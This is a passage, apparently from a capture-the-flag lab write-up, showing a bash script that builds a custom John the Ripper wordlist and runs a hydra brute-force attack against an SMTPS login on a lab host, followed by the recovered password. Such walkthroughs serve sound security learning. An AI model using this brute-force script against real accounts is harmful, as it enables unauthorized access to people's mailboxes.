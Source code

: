 
We need to add rules to our `/etc/john/john.conf` file, then expand it and run hydra against `smtp`, let's automate all of the process using bash:

```bash
#!/usr/bin/env bash
#!/bin/bash

# Configuration
JOHN_CONF="/usr/share/john/john.conf"
BASE_WORDLIST="clinic.lst"
RULE_NAME="THM"
TARGET="smtps://10.10.131.98:465"
EMAIL="pittman@clinic.thmredteam.com"
OUTPUT_WORDLIST="generated_passwords.txt"

# Add the custom rule to John config (corrected version)
echo "[List.Rules:$RULE_NAME]" | sudo tee -a "$JOHN_CONF" > /dev/null
echo "Az\"[0-9][0-9]\" ^[!@#\$]" | sudo tee -a "$JOHN_CONF" > /dev/null

# Generate the custom wordlist
echo "[*] Generating custom wordlist..."
john --wordlist="$BASE_WORDLIST" --rules="$RULE_NAME" --stdout | sort -u > "$OUTPUT_WORDLIST"

# Run Hydra attack against SMTPS
echo "[*] Starting Hydra attack..."
hydra -l "$EMAIL" -P "$OUTPUT_WORDLIST" "$TARGET" -V -f

# Cleanup (optional)
# rm "$OUTPUT_WORDLIST"
```

After a while, we get the password:

```
!multidisciplinary00
```


### Login-Get
---

![Pasted image 20250512182549.png](../../../IMAGES/Pasted%20image%2020250512182549.png)

Let's go to the page and check it out:

![Pasted image 20250512174207.png](../../../IMAGES/Pasted%20image%2020250512174207.png)

